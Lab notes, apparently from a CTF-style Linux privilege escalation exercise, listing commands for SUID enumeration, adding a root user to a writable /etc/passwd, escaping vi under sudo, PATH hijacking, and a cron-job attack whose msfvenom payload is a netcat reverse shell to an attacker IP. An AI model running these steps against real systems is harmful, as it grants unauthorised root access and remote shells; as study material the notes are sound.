 # BASIC INFO

```
export IP=10.10.236.200

```

# ENUMERATION

**writable /etc/passwd**


# ABUSING SUID/GUID

```
find / -perm -u=s -type f 2>/dev/null
```
>> /home/user3/shell


# EXPLOIT WRITABLE /ETC/PASSWD

```
openssl passwd -1 -salt new 123
```
>> $1$new$p7ptkEKU1HnaHpRtzNizS1


>Create a new user in /etc/passwd

```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

#ESCAPING VI EDITOR

>> user8 has sudo permission to run vi as root

```
sudo vi
:!sh
```
>> spawn shell

# EXPLOTING CRONTAB

`cat /etc/crontab` for all the cron jobs
use `msfvenom` to create exploit
```
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.8.177 lport=9001 R
```
>> mkfifo /tmp/oamuz; nc 10.8.8.177 9001 0</tmp/oamuz | /bin/sh >/tmp/oamuz 2>&1; rm /tmp/oamuz

# EXPLOITING PATH VARIABLE

> ./script is running ls, probably sudo as well

```
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
export PATH=/tmp:$PATH
/user4/script

```